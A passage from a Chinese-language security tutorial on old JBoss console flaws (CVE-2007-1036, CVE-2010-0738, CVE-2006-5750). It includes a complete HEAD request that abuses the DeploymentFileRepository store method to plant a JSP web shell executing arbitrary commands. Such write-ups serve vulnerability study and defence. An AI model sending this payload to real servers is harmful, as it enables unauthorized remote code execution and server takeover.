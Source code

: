 定位到 store ⽅法

```
通过向四个参数传入信息，达到上传shell的目，
arg1传入的是部署的war包名字
arg2传入的是上传的文件的文件名
arg3传入的是上传文件的文件格式
arg4传入的是上传文件中的内容
通过控制这四个参数即可上传shell，控制整台服务器。
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDAeLkAOpClBP4m1AY226iauhhFsFZZaLm1N3icfiaN62Je78GH8JpI1buR1W5Kic1A50BicAU8TOiboCrug/640?wx_fmt=png)

后面的 CVE-2010-0738 和 CVE-2006-5750 漏洞也存在这一特性。

JMX 控制台安全验证绕过漏洞（CVE-2010-0738）

漏洞描述  
该漏洞利⽤⽅法跟 CVE-2007-1036 ⼀样，只是绕过了 get 和 post 传输限制，利⽤  
head 传输⽅式发送 payload

影响版本  
jboss4.2.0、jboss 4.3.0

漏洞利⽤  
利⽤ head 传输⽅式，payload 如下：

```
HEAD /jmx-console/HtmlAdaptor?
action=invokeOp&name=jboss.admin:service=DeploymentFileRepository&methodIn
dex=6&arg0=../jmx-console.war/&arg1=hax0rwin&arg2=.jsp&arg3=
<%Runtime.getRuntime().exec(request.getParameter("i"));%>&arg4=True
HTTP/1.1
Host: hostx:portx
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.1.9)
Gecko/20100315 Firefox/3.5.9 (.NET CLR 3.5.30729)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,\*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
```

CVE-2006-5750

```
此漏洞利用原理和CVE-2007-1036漏洞相同，唯一的区别是CVE-2006-5750漏洞利用methodIndex进行store()方法的调用。其中methodIndex是通过方法的编号进行调用。
```

Jboss5.x/6.x 控制台

Jboss5.x 开始弃用了 web-console ，增加了 admin-console。jboss5.x / 6.x 版本 console 路径为 /jmx-console/ 和 /admin-console/。

jmx-console 的配置文件为
